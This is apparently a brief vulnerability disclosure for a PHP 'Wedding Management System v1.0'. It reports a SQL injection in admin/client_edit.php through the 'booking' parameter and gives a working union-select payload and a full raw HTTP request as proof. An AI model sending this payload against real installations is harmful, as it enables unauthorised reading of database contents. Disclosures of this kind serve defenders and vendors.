 # Wedding Management System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\client_edit.php

Vulnerability location: /Wedding-Management/admin/client_edit.php?booking=, booking

[+] Payload: booking=-31%20union%20select%201,2,3,4,5,user(),7,8--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/client_edit.php?booking=-31%20union%20select%201,2,3,4,5,user(),7,8--+&user_id=31 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167982439-b3e6fd7c-1b2a-431a-8fdc-cdcb66daadc9.png)

![image](https://user-images.githubusercontent.com/54017627/167982382-5de5354d-f31e-4d0b-8aad-d11fdc573c65.png)

